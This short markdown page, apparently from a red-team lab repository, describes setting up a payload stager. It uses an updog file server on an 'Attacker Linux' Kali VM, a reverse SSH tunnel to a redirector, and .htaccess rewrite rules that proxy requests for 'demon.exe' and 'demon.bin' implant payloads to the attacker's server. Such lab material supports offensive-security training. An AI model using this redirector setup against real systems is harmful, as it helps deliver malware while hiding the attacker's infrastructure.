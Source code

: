 # Stager

1. Setup file hosting service on Attacker Linux.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ updog --ssl
[+] Serving /home/kali/Desktop...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on https://192.168.231.128:9090/ (Press CTRL+C to quit)
```

2. On Attacker Linux VM, setup a SSH tunnel for Payload Stager.
```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ssh -N -R 9090:localhost:9090 -i redirector redirector@192.168.231.129
```

3. Add the following lines under `RewriteEngine on` in `.htacccess` file.
```
RewriteCond %{REQUEST_URI} "demon.exe" [NC,OR]
RewriteCond %{REQUEST_URI} "demon.bin" [NC]
RewriteRule ^.*$ "https://localhost:9090%{REQUEST_URI}" [P]
```